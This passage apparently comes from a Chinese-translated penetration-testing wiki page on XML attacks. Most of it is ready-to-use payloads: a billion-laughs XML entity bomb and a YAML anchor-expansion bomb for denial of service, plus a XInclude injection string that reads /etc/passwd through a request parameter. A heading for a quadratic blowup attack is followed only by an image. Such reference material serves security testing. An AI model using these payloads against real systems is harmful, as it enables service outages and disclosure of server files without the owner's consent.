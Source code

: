 ### DoS

#### Billion Laugh Attack

```markup
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

#### Yaml Attack

```markup
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

#### 二次爆炸攻击

![](<../.gitbook/assets/image (531).png>)

## Hidden XXE Surfaces

### XInclude

[From here.](https://portswigger.net/web-security/xxe)

一些应用程序**接收客户端提交的数据，在服务器端将其嵌入到 XML 文档中，然后解析文档**。当客户端提交的数据被放入一个**后端 SOAP 请求**，然后由后端 SOAP 服务处理时，就会出现这种情况。
在这种情况下，您无法执行经典的 XXE 攻击，因为**您无法控制整个 XML**文档，因此无法定义或修改 `DOCTYPE` 元素。但是，您也许可以使用 `XInclude` 代替。 `XInclude` 是 XML 规范的一部分，它允许从子文档构建 XML 文档。您可以在 XML 文档中的任何数据值中放置“XInclude”攻击，因此可以在您仅控制放置在服务器端 XML 文档中的单个数据项的情况下执行攻击。
要执行 `XInclude` 攻击，您需要引用 `XInclude` 命名空间并提供您希望包含的文件的路径。例如：

```markup
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```
